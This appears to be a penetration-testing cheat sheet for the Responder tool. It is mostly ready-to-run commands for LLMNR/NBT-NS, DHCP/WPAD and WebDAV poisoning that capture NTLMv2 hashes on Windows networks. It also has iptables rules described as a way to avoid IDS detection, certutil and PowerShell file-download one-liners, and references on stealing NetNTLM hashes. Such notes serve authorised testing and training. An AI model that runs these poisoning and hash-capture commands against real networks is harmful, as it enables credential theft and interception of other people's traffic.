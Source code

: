 # Usage

Search Tag: #mitm #responder #smb #relay #ntlm

## 01 - Basics

### 1.1 - LLMNR

- **NBT-NS and LLMNR Poisoning via capturing NTLMv2-SSP hashes**

`$ sudo responder -I <interface> -rdwv`

- **LLMNR Poisoning**

`$ sudo responder -I eth0 --lm -v`

### 1.2 - DHCP

- **DHCP and WPAD poisoning**

When a windows host requires a new IP address dynamically it can perform HTTP WPAD poisoning response while the user uses a web browser that contains auto proxy settings enabled

`$ sudo responder -I <interface> -Pdwv`

### 1.3 - WebDAV

- **Block SMB traffic on the attacker's machine to poison NTLMv2-SSP responses via WebDAV/HTTP**

Note: You don't have to block the ports unless you're evading some IDS to identify you for performing MITM poisoning

```
$ sudo iptables -A INPUT -p udp --dport 137 -j DROP
$ sudo iptables -A INPUT -p udp --dport 138 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 139 -j DROP
$ sudo iptables -A INPUT -p tcp --dport 445 -j DROP
```

`$ sudo responder -I eth1 -Pdv`

`C:\> certutil -urlcache -split -f https://google.com file.txt`

`PS C:\> Invoke-WebRequest -Uri https://google.com -OutFile file.txt`

---
## References

- [Responder](https://github.com/lgandx/Responder)

- [Responders DHCP Poisoner](https://g-laurent.blogspot.com/2021/08/responders-dhcp-poisoner.html)

- [Understanding UNC Paths SMB And WebDAV](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)

- [The Dangers of Endpoint Discovery in Vipre Endpoint Security](https://www.n00py.io/2020/12/the-dangers-of-endpoint-discovery-in-vipre-endpoint-security/)

- [Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

- [Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

- [SMB HTTP Auth Capture va SCF](https://room362.com/post/2016/smb-http-auth-capture-via-scf/)

- [A Detailed Guide on Responder LLMNR Poisoning](https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/)